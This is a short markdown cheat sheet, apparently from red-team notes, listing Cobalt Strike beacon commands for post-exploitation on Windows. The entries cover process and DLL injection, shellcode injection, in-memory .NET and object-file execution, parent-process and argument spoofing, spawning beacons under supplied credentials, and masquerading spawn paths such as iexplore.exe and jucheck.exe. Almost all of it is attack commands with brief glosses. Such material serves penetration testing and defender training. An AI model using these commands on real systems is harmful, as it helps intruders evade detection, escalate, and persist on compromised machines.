 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - defense-evasion
  - process-injection
  - cobalt-strike
  - windows
---
```

# Cobalt Strike

## 01 - Migrate Process

Inject to spawn beacon session.

```
beacon> inject <pid> <architecture> <listener>
```

## 02 - Inject Process

Run powershell through another process.

```
beacon> psinject <pid> <arch> <cmdlet> [args]
```

Run .NET binary through a temporary process when running `spawnto` beacon command otherwise it defaults back to `rundll32.dll`.

```
beacon> execute-assembly /path/to/compiled_dotnet_tool.exe [arguments]
```

Inject DLL file in another process.

```
beacon> dllload <pid> c:\path\to\remove\shell.dll
```

Execute beacon object file through memory in the current process.

```
beacon> inline-execute /path/to/objectfile.o [arguments]
```

## 03 - Inject Shellcode

Inject shellcode.

```
beacon> shinject <pid> /path/to/shellcode.bin
```

Spawn a new process and inject shellcode.

```
beacon> shspawn x64
```

Spawn shellcode and tunnel.

```
beacon> spunnel <pid> /path/to/shellcode.bin
```

## 04 - Spoof Process

Spoof a parent process that is ready to spawn a new child process.

```
beacon> ppid <ppid>
```

## 05 - Spawn Beacon Session

Spawn new beacon process with under different user credentials as provided.

```
beacon> spawnas <domain>\<username> <password>
```

Specify a path of the new executable program to inject beacon shellcode other than specified in the malleable c2 profile. By default it injects `rundll32.exe` when executing `spawn`.

```
beacon> spawnto <arch> <path> <args>

beacon> spawnto x86 c:\program files (x86)\internet explorer\iexplore.exe

beacon> spawnto x86 C:\Program Files (x86)\Common Files\Java\Java Update\jucheck.exe
```

Spawn new beacon process.

```
beacon> spawn <arch> <listener>
```

## 06 - Spoof Arguments

```
beacon> argue <command> [args]
```

---
## References

* [Cobalt Strike Spawn Tunnel](https://rastamouse.me/cobalt-strike-spawn-tunnel/)
